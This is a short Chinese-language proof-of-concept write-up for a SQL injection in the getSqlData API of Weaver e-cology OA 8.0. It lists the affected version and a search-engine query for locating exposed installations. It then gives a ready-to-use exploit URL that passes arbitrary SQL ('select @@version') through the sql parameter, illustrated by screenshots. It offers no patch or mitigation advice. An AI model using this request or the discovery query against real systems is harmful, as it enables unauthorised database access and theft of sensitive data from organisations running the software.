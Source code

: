 # 泛微OA E-Cology getSqlData SQL注入漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。
泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>泛微e-cology 8.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746.png)

验证POC

```php
/Api/portal/elementEcodeAddon/getSqlData?sql=select%20@@version
```

![img](../../../.vuepress/public/img/1640576046324-ba0b76d2-f7fa-4f26-b8e1-a5b38baed17a.png)



若有收获，就点个赞吧